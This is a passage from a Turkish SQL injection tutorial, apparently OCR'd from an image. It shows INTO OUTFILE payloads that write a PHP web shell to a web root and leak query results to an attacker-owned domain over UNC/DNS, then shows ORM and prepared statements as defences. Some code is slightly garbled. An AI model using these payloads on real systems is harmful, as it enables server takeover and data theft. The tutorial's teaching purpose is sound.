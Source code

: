 Şimdi kod yapımızı tekrar değiştirelim;

```jsx
id = request.get('id')

rabbitmq.pushTask('report_generate',id)

print("selam")
```

Web uygulaması, bizden aldığı değeri RabbitMQ isimli bir servise gönderdi. Artık sleep() ifadesini koysak bile veritabanı uyumayacaktır. Çünkü SQL injection bizim konuştuğumuz uygulamada yok. Bu uygulama bizden alıp başka bir yapıya göndermektedir.

INTO OUTFILE diske bir veri yazma işlevini yerine getirir. Windowsun bir özelliği vardır.

```sql
SELECT '<?=system(@$_GET['cmd']);?>' INTO OUTFILE 'var/www/html/c99.php';
```

Burada samba bağlanır. domain’i çözmesi gerekir. subdomain’e biz artık başka şeyler yazabiliriz;

```sql
SELECT 'ilker' INTO OUTFILE '\\\hacker.ilker.com/a';
```

Burada artık kendi sql sorgumuzu da çalıştırabiliriz;

```sql
SELECT 'ilker' INTO OUTFILE '\\\'+(SELECT 'ilker')+'.ilker.com/a';
```

Biraz da bu meselenin defansif tarafını konuşalım. Kod yapımızı burada tekrar ele alalım;

```python
id = request.get('id')

query = "SELET * FROM haberler WHERE id = "+id

db.execute(query)

print("selam")
```

Günümüzdeki framework’lerin çoğunda bize kattıkları en büyük özellik ORM (Object to Relational Mapping) ‘dir.

Artık SQL sorgusu yazmak yerine sadece kod üzerinden veri çekmekteyiz.

```python
ORM

class Haberler(Table):
 id = db.aut()

id = request.get('id')

Haberler.filter(id).get()

//prepare statement
query = "SELECT * FROM haberler WHERE id = :id"

db.execute(query)

print("selam")
```
